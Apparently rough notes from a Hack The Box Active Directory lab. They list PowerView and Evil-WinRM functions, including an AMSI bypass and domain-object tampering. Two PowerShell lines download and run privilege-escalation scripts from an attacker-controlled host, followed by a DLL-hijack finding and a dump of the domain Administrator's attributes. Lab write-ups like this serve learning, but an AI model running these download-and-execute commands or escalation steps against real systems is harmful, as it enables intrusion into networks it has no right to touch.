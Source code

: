 [+] New-DomainUser 
[+] New-DynamicParameter 
[+] New-GPOImmediateTask 
[+] New-InMemoryModule 
[+] New-ThreadedFunction 
[+] psenum 
[+] Remove-DomainGroupMember 
[+] Remove-DomainObjectAcl 
[+] Remove-RemoteConnection 
[+] Resolve-IPAddress 
[+] Set-DomainObject 
[+] Set-DomainObjectOwner 
[+] Set-DomainUserPassword 
[+] struct 
[+] Test-AdminAccess 
[+] Test-Administrator
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit


change directory to /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1
iex(new-object net.webclient).downloadstring('http://10.10.14.8:80/PowerUp.ps1')

looking for Invoke-AllChecks
        invokes all functions that powerup has

AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\svc-alfresco\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

https://github.com/securycore/Ikeext-Privesc

iex(new-object net.webclient).downloadstring('http://10.10.14.8:80/Ikeext-Privesc.ps1')

Invoke-IkeextCheck

nope

logoncount                      : 97
badpasswordtime                 : 8/31/2021 6:56:53 AM
description                     : Built-in account for administering the computer/domain
mailnickname                    : Administrator
distinguishedname               : CN=Administrator,CN=Users,DC=htb,DC=local
objectclass                     : {top, person, organizationalPerson, user}
displayname                     : Administrator
lastlogontimestamp              : 8/4/2022 2:12:51 AM
userprincipalname               : Administrator@htb.local
msexchuseraccountcontrol        : 0
objectguid                      : a8133c53-217c-40e2-81cb-887e0f61bdb0
primarygroupid                  : 513
objectsid                       : S-1-5-21-3072663084-364016917-1341370565-500
msexchmailboxsecuritydescriptor : {1, 0, 4, 128...}
logonhours                      : {255, 255, 255, 255...}
msexchelcmailboxflags           : 130
codepage                        : 0
msexchhomeservername            : /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Configuration/cn=Servers/cn=EXCH01
samaccounttype                  : USER_OBJECT
msexchumdtmfmap                 : {emailAddress:2364647872867, lastNameFirstName:2364647872867, firstNameLastName:2364647872867}
msexchrbacpolicylink            : CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN=First Organization,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=htb,DC=local
accountexpires                  : 12/31/1600 4:00:00 PM
cn                              : Administrator
whenchanged                     : 8/4/2022 9:12:51 AM